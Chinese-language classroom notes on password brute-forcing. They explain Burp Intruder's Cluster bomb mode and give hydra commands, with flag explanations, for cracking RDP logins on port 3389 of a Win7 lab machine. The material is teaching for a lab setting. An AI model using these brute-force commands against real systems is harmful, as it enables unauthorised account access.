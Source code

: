 4. Cluster bomb（集束炸弹）：

   * Cluster bomb使用穷举法，对每个标记字段都遍历字典

   * 标记三处，第一处字典3个，第二处字典2个，第三处字典3个，爆破次数：3*2*3

   ```
   例
   第一处字典
   111
   222
   333
   第二处字典：
   aaa
   bbb
   第三处字典：
   AAA
   BBB
   CCC
   最终爆破次数为3*2*3=18次
   ```






# 远程桌面RDP密码的暴力破解

* Win7（防火墙关闭）

* 远程桌面（**rdp**协议）

* 远程桌面服务监听端口**3389**

* 攻击工具：九头蛇hydra

* kali

  ```
  hydra 被攻击IP rdp -l <用户名> -P 密码字典 -V
  hydra 192.168.86.135 rdp -l test -P top1000.txt
  hydra 192.168.86.135 rdp -L name.txt -P top1000.txt
  ::若用户名未知可更改命令额外爆破用户名
  ::l和p如果大写，后面跟密码字典或用户名字典，小写则后面跟一个用户名或密码
  ::-V显示细节
  ::-f一旦爆破成功一个就立即停止爆破
  ```
  
  ![image-20230804170120395](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230804170120395.png)
  
  ![image-20230804170141269](./%E8%AF%BE%E5%A0%82%E7%AC%94%E8%AE%B0.assets/image-20230804170141269.png)



# RDP远程桌面和Telnet协议

